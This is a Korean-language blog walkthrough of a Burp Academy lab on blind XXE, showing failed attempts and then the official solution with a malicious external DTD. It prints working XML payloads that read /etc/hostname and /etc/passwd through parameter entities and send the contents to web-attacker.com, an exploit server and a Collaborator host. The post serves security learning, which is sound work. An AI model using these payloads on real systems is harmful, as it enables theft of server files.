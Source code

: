 ```yaml
---
layout: post
title: "Burp Academy 문제풀이 - Exploiting blind XXE to exfiltrate data using a malicious external DTD"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XXE]
toc: true
---
```


# 개요
- Blind XXE 문제인데 XML의 파라메터 엔터티(Parameter Entity)를 통해 out-of-band 통신을 발생시키는 예제로 보인다. 
- 문제 주소: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration


- 블라인드 XXE 설명 주소: https://portswigger.net/web-security/xxe/blind
- 난이도: PRACTITIONER (중간)

# 문제분석
- 이전 문제들과 마찬가지로 "Check stock" 기능을 통해 XML 을 삽입할 수 있다. 
- `/etc/hostname` 파일의 내용을 얻어내면 된다. 
- 내용을 HTTP 응답으로 직접확인할 수는 없다. Blind XXE를 응용해야 한다. 
```
This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator's default public server.
```


# 준비
## exploit server
이 문제부터는 exploit server 가 등장한다. 다음과 같이 특정 경로 요청에 대해 어떤 응답을 보낼지를 설정할 수 있다. 

![exploit server](/images/burp-academy-exploit-servser.png)



# 1차 시도 
우선 Parameter 엔터티로 `/etc/hostname` 을 접근할 수 있는지 확인해본다. 
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<stockCheck>
	<productId>%file;</productId>
	<storeId>1</storeId>
</stockCheck>
```

안된다. XML 파싱에러가 발생했다. 

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 19

"XML parsing error"
```

## 2차 시도 
[XXE 설명 페이지](https://portswigger.net/web-security/xxe/blind){:target="_blank"}를 보면 다음 페이로드가 소개되어 있다. 

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

- `&#x25;` 는 HTML 디코드하면 `%` 이다. 
- /etc/passwd의 내용을 file 이라는 이름의 파라메터 엔터티에 저장해둔다. 
- eval이라는 이름의 파라메터 엔터티에 다이내믹 선언한 exfiltrate 라는 파라메터 엔터티의 값을 저장해둔다. 
- exfiltrate 엔터티는 HTTP 요청을 공격자의 웹 서버에 file 엔터티의 내용을 URL 쿼리 스트링으로 함께 보낸다. 

이 것을 다음과 같이 바꿔서 보냈다. 

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://exploit-0ae8003e0426eb73c02fa82501bd002e.exploit-server.net/?x=%file;'>">
%eval;
%exfiltrate;
```

보안 이유 때문에 Entity 는 사용할 수 없다는 응답이 돌아왔다. 

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 47

"Entities are not allowed for security reasons"
```

## 3차 시도 
여기서 부터는 잘 모르겠다. 정답을 봤다. 

# 해답
이 문제를 풀려면 Burp Collaborator와 통신이 가능한 Burp Suite Professional 버전이 필요하다. 

- STEP 1. Burp Suite Professional에서 Burp Collaborator 탭으로 이동한다. 
- STEP 2. "Copy to clipboard" 를 이용해 유니크한 Burp Collaborator 페이로드를 복사해둔다. 

![Burp Collaborator 페이로드 복사](/images/burp-academy-xxe-5-1.png)

- STEP 3. 다음 DTD 파일의 BURP-COLLABORATOR-SUBDOMAIN 을 복사한 페이로드로 바꾼다. 

```xml 
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

예를 들어, 내 경우에는 다음과 같이 되었다. 
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://n8wqd73kghte5rc9tqfr8wq0frli98xx.oastify.com/?x=%file;'>">
%eval;
%exfil;
```

- STEP 4. exploit server 로 이동해서 위의 DTD 파일을 응답 Body 부분에 저장한다. 
- STEP 5. 유저가  "Check stock" 버튼을 눌렀을 때의 POST 요청 바디 부분을 다음과 같이 바꾼다. 

```xml 
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

내 경우에는 다음과 같이 된다. 

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a5200f2036c3c94c2e7ba5c01230041.exploit-server.net/exploit"> %xxe;]>
```

이 페이로드를  "Check stock" 버튼을 눌렀을 때의 POST 요청 바디로 전송한다. 400 Bad Request 응답이 돌아온다. 

![페이로드 전송](/images/burp-academy-xxe-5-2.png)


- STEP 6. Burp Suite Professional에서 Burp Collaborator 탭에서 "Poll now" 를 클릭한다. 
- STEP 7. 조금 기다리면 Burp Collaborator 서버로 통신한 DNS와 HTTP 통신이력이 보인다. HTTP 통신에 /ect/hostname 파일의 내용이 보인다. 

![Burp Collaborator 서버 통신](/images/burp-academy-xxe-5-3.png)

이 것을 정답제출 버튼을 누르고 제출하면 다음과 같이 풀이에 성공했다는 팝업이 나타난다. 

![풀이성공](/images/burp-academy-xxe-5-4.png)

# 구성도 
과정이 복잡해졌기 때문에 이해하기 어렵다. 이해를 위해 구성도를 그려보고 과정을 다시 한번 정리해보자. 

![구성도](/images/burp-academy-xxe-5-diagram.png)

- EC Site 에는 XXE취약점이 있지만 XXE의 결과가 응답페이지에 표시되지 않는다. 
- 공격자는 악의적인 DTD를 제공하는 서버를 구축한다. (hacker DTD Server)
- 이 DTD는 /etc/hostname 의 정보를 HTTP URL파라메터에 지정해 특정 서버로 요청하라는 지시를 담고 있다. 
- 위의 과정에서 특정서버는 Burp Collaborator서버를 사용했다. (Burp Collaborator서버를 사용하면 특정 경로로 특정 요청이 온 것을 확인하기 용이하다.)
- 유저(공격자)가 POST 요청으로 XXE 페이로드를 전달한다. 
- EC Site는 XXE 페이로드를 해석하는 과정에서 Burp Collaborator서버로 중요정보를 포함한 HTTP 요청을 보낸다. 
- 공격자는 Burp Collaborator서버에 문의해서 어떤 요청이 들어왔는지를 확인할 수 있다. 이 요청의 파라메터를 확인하는 것으로 중요정보를 입수할 수 있다. 